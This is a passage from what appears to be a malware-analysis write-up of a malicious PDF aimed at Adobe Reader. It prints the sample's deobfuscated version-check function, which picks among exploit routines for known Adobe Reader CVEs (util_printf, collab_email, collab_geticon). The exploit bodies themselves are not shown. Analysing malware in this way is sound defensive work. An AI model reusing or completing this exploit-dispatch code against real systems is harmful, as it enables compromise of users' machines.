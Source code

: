 These functions contain the logic to exploit various **Adobe Reader vulnerabilities (CVEs)**. The script ends by calling:

```javascript
pdf_start();
```

![jsbeautyfy.png](/assets/img/posts/malware/adobe-malware/jsbeautyfy.png)

### Phase 3 – PDF Reader Version Detection

Inside `pdf_start()`, the script retrieves the version of Adobe Reader:

```javascript
function pdf_start() {
    var version = app.viewerVersion.toString();
    version = version.replace(/\D/g, '');
    var varsion_array = new Array(version.charAt(0), version.charAt(1), version.charAt(2));

    if ((varsion_array[0] == 8) && (varsion_array[1] == 0) ||
        (varsion_array[1] == 1 && varsion_array[2] < 3)) {
        util_printf();
    }

    if ((varsion_array[0] < 8) ||
        (varsion_array[0] == 8 && varsion_array[1] < 2 && varsion_array[2] < 2)) {
        collab_email();
    }

    if ((varsion_array[0] < 9) ||
        (varsion_array[0] == 9 && varsion_array[1] < 1)) {
        collab_geticon();
    }
}
```
